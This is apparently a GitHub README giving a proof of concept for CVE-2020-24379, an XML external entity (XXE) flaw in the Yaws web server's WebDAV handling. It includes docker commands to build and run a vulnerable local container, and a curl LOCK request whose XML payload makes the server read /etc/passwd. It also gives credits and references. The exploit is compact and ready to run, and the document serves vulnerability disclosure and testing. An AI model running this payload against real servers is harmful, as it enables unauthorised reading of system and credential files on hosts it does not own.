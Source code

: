 # XXE in Yaws web server (CVE-2020-24379)

## Proof of concept

Build test image:

`docker build -t vulnbe/yaws-pocs:xxe-dav-mod -f Dockerfile .`

and/or

Run container `docker run --rm -d -i -p 127.0.0.1:8000:8080 vulnbe/yaws-pocs:xxe-dav-mod`

Then run:

```xml
curl -i -s -k -X LOCK http://localhost:8000/ -H 'Timeout: Second-1' \
  --data-binary @- << EOF
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "file:///etc/passwd">
]>
<d:lockinfo xmlns:d="DAV:">
  <d:lockscope><d:exclusive/></d:lockscope>
  <d:locktype><d:write/></d:locktype>
  <d:owner>
  <d:href><r>&sp;</r></d:href>
  </d:owner>
  </d:lockinfo>
EOF
```

## Credit

Alexey Pronin ([@vulnbe](https://twitter.com/vulnbe))

## References

* [Vulnerability analysis](https://vuln.be/post/yaws-xxe/)
* [Yaws on github](https://github.com/erlyaws/yaws)
* [CVE-2020-24379](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24379)
* [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)
